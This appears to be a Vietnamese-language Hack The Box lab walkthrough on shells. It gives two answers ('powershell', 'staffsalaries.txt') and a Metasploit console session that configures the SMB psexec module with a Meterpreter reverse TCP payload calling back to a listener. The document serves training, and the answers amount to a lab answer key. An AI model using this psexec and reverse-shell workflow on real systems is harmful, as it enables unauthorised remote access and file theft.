






1. What command language interpreter is used to establish a system shell session with the target?

P/s : powershell
2. Exploit the target using what you've learned in this section, then submit the name of the file located in htb-student's Documents folder. (Format: filename.extension
Mở metasploit bằng câu lệnhmsfconsolq -q


```bash
msf6 > use exploit/windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
msf6 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SERVICE_DESCRIP                   no        Service description to
   TION                                        be used on target for p
                                               retty listing
   SERVICE_DISPLAY                   no        The service display nam
   _NAME                                       e
   SERVICE_NAME                      no        The service name
   SMBSHARE                          no        The share to connect to
                                               , can be an admin share
                                                (ADMIN$,C$,...) or a n
                                               ormal read/write folder
                                                share


   Used when connecting via an existing SESSION:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   no        The session to run this module
                                       on


   Used when making a new connection via RHOSTS:

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS                      no        The target host(s), see https
                                         ://docs.metasploit.com/docs/u
                                         sing-metasploit/basics/using-
                                         metasploit.html
   RPORT      445              no        The target port (TCP)
   SMBDomain  .                no        The Windows domain to use for
                                          authentication
   SMBPass                     no        The password for the specifie
                                         d username
   SMBUser                     no        The username to authenticate
                                         as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '',
                                        seh, thread, process, none)
   LHOST     192.168.231.128  yes       The listen address (an interfa
                                        ce may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

View the full module info with the info, or info -d command.
```
Thiết lập các thông số cho payload khai thác 

Bắt đầu khai thác 

Khởi tạo shell tương tác

Tìm file trong đường dẫn C:\Users\htb-student\Documents

P/s:staffsalaries.txt